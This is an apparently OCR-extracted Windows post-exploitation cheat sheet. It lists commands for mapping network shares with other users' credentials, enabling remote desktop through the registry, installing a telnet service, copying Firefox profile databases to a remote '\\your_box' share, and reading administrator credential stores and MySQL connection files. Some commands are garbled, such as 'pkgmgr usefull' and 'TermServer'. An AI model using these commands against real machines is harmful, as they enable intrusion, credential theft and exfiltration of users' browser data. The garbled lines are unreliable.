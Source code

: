 net use: Map network shares

net use \\computername (maps IPC$ which does not show up as a drive)

net use \\computername /user:DOMAINNAME\username password ○ (maps IPC$ under another username)

**[Mount a remote share with the rights of the current user]**:

net use K: \\<ip>\<share>
  
dir K:

**[Enable remote desktop]**

reg add "HKLM\System\CurrentControlSet\Control\TermServer" /v fDenyTSConnections /t REG_DWORD /f

net session: list session information

**[Other useful Commands]**

pkgmgr usefull /iu :"Package"

pkgmgr usefull /iu :"TellnetServer": install telnet service

pkgmgr /iu:"TelnetClient"

rundll32.exe user32.dll, LockWorkStation: locks the screen

wscript.exe <script js/vbs>

cscript.exe <script js/vbs/c#>

xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box

type "C:\documents and settings\administrator\userdata\index.dat"

type %WINDIR%\System32\drivers\etc\hosts: view contents of hosts files

type "c:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Credentials"

cd "C:/Documents and settings\administrator\userdata" & dir

type "c:\Documents and Settings\Administrator\Desktop\UserMysql.txt"

type "c:\Documents and Settings\Administrator\Application Data\MySQL\mysqlx_user_connections.xml"

type "C:\documents and settings\administrator\userdata\index.dat"
